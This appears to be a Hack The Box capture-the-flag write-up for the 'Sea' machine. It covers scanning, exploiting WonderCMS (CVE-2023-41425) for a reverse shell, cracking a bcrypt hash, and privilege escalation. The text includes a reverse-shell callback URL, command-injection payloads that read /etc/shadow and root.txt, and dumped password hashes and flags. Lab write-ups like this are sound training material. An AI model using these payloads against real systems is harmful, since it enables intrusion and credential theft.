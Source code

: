 ```yaml
---
title: "HTB: SEA Seasonal Machine"
author: "v3l1d"
date: "2024-08-08"
---
```


![](attachment/c4cc9c4aee6aa0e906e23da81acfe73a.jpg)
**Nmap**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 07:55 EDT
Nmap scan report for 10.129.27.223
Host is up (0.050s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.68 seconds

```

![](attachment/bf6ff779445168f6914732ee9f3785f9.png)

```shell
 ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://sea.htb/FUZZ  -mc 200,301,302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://sea.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302
________________________________________________

# directory-list-2.3-medium.txt [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 51ms]
home                    [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 50ms]
0                       [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 45ms]
themes                  [Status: 301, Size: 230, Words: 14, Lines: 8, Duration: 43ms]
data                    [Status: 301, Size: 228, Words: 14, Lines: 8, Duration: 42ms]
plugins                 [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 43ms]

```

All endpoints are forbidden

![](attachment/b101fa38d06f5fbb4be25ccc65f7175b.png)


```shell
wget http://sea.htb/themes/bike/README.md                                       
--2024-08-13 05:23:28--  http://sea.htb/themes/bike/README.md
Resolving sea.htb (sea.htb)... 10.129.111.77
Connecting to sea.htb (sea.htb)|10.129.111.77|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 318 [text/markdown]
Saving to: ‘README.md’

README.md                        100%[==========================================================>]     318  --.-KB/s    in 0s      

2024-08-13 05:23:28 (52.1 MB/s) - ‘README.md’ saved [318/318]

```

WGET README.md and LICENSE and analyze content, it says is used WonderCMS

![](attachment/72b505acf6cc17aeff4fafb3135dacfb.png)

Looking online found: [CVE-2023-41425 (WonderCMS Remote Code Execution) - PoC](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413)
![](attachment/bafc9212737fc47089cd6101baff47f0.png)

	Clone the repo and try. After talking with others on discord

```shell
http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.126&lport=4444
```
![](attachment/ef1268efe149e6fffec7386597207bb3.png)

```shell
$ cd /var/www/sea
$ cd sea
$ ls
contact.php
data
index.php
messages
plugins
themes
$ cd data
$ ls
cache.json
database.js
files
$ cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/08\/13 18:10:26": "127.0.0.1",
            "2024\/08\/13 18:09:26": "127.0.0.1",
            "2024\/08\/13 18:09:25": "127.0.0.1",
            "2024\/08\/13 18:08:25": "127.0.0.1",
            "2024\/08\/13 18:07:25": "127.0.0.1"
        },


```


Fix the hash provided removing the escapes obtaining this:

```shell
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q
┌──(kali㉿kali)-[~/HTB/Sea]
└─$ hashcat hash.txt -m 3200 /usr/share/wordlists/rockyou.txt
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Wed Aug 14 06:21:53 2024 (46 secs)
Time.Estimated...: Wed Aug 14 06:22:39 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       67 H/s (6.72ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3072/14344384 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 3056/14344384 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 753159 -> dangerous
Hardware.Mon.#1..: Util: 88%

Started: Wed Aug 14 06:21:13 2024
Stopped: Wed Aug 14 06:22:41 2024

```

![](attachment/4b8223e56cbf8a23659153d34599548d.png)

Try this password in ssh with one of these two users:

```shell
┌──(kali㉿kali)-[~/HTB/Sea]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.126] from (UNKNOWN) [10.129.166.185] 44840
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 10:25:42 up 41 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
amay
geo

```

![](attachment/5e7f51c554cca528be1ef76f440f477d.png)
Manipulate burp request on http://localhost:8888 after forwarding this port trough ssh from 8080 of the victim 

```shell
log_file=/etc/shadow;ls&analyze_log=/etc/shadow

root:$6$llVzHhr7xHrvx1wJ$gH0PLbyPaIOqLrpjpzGZbM2bZ/iHaOfv/bj1YRrktVeZ8.1KQ0Jr1Rv/TL/3Qdh84Fwec1UhX2v0LVAGsuzq.0:19775:0:99999:7::: daemon:*:19430:0:99999:7::: bin:*:19430:0:99999:7::: sys:*:19430:0:99999:7::: sync:*:19430:0:99999:7::: games:*:19430:0:99999:7::: man:*:19430:0:99999:7::: lp:*:19430:0:99999:7::: mail:*:19430:0:99999:7::: news:*:19430:0:99999:7::: uucp:*:19430:0:99999:7::: proxy:*:19430:0:99999:7::: www-data:*:19430:0:99999:7::: backup:*:19430:0:99999:7::: list:*:19430:0:99999:7::: irc:*:19430:0:99999:7::: gnats:*:19430:0:99999:7::: nobody:*:19430:0:99999:7::: systemd-network:*:19430:0:99999:7::: systemd-resolve:*:19430:0:99999:7::: systemd-timesync:*:19430:0:99999:7::: messagebus:*:19430:0:99999:7::: syslog:*:19430:0:99999:7::: _apt:*:19430:0:99999:7::: tss:*:19430:0:99999:7::: uuidd:*:19430:0:99999:7::: tcpdump:*:19430:0:99999:7::: landscape:*:19430:0:99999:7::: pollinate:*:19430:0:99999:7::: fwupd-refresh:*:19430:0:99999:7::: usbmux:*:19774:0:99999:7::: sshd:*:19774:0:99999:7::: systemd-coredump:!!:19774:::::: amay:$6$S1AGe5ex2k4D5MKa$gTclSeJwvND3FINpZaK0zfUqk6T9IkhlxCn17fNWLx56u.zP/f/4e5YrJRPsM3TRuuKXQDfYL44RyPzduexsm.:19775:0:99999:7::: lxd:!:19774:::::: geo:$6$5mAIqOze4GJ4s9Zu$P3IgUSHlcCkKpDJ0862IgP5aqaNilEUZDGIm16FiWdxh1A5dfKjmwhMgp3xctHiHZVWGtmKY25cCrILanDPaG.:19934:0:99999:7::: _laurel:!:19936:::::: 
```
![](attachment/9031cba476e653a6aa5180f76feea642.png)

We can get the root flag directly

```shell
log_file=/root/root.txt;ls&analyze_log=/root/root.txt
```

**Flags
```shell
user:459138e5dbf2ead0be8b9c7944a38af7
root:c58fac10593819ba13ab985ab6389ce0
```